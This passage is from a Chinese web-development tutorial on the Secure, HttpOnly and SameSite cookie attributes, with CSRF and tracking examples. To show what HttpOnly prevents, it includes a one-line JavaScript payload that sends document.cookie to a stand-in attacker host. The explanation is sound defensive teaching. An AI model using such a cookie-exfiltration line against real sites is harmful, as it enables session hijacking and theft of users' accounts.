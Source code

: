 ### Secure，HttpOnly

 `Secure` 属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的 `Secure` 属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

 `HttpOnly` 属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是 `document.cookie` 属性、 `XMLHttpRequest` 对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的 `HttpOnly` 属性，上面代码就不会读到该 Cookie。

### SameSite

Chrome 51 开始，浏览器的 Cookie 新增加了一个 `SameSite` 属性，用来防止 CSRF 攻击和用户追踪。

Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站 `your-bank.com` ，银行服务器发来了一个 Cookie。

```http
Set-Cookie:id=a3fWa;
```

用户后来又访问了恶意网站 `malicious.com` ，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。比如，Facebook 在第三方网站插入一张看不见的图片。

```html
<img src="facebook.com" style="visibility:hidden;">
```

浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，从而 Facebook 就会知道你是谁，访问了什么网站。

Cookie 的 `SameSite` 属性用来限制第三方 Cookie，从而减少安全风险。它可以设置三个值。

> - Strict
> - Lax
> - None

**（1）Strict**

 `Strict` 最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。

```http
Set-Cookie: CookieName=CookieValue; SameSite=Strict;
```
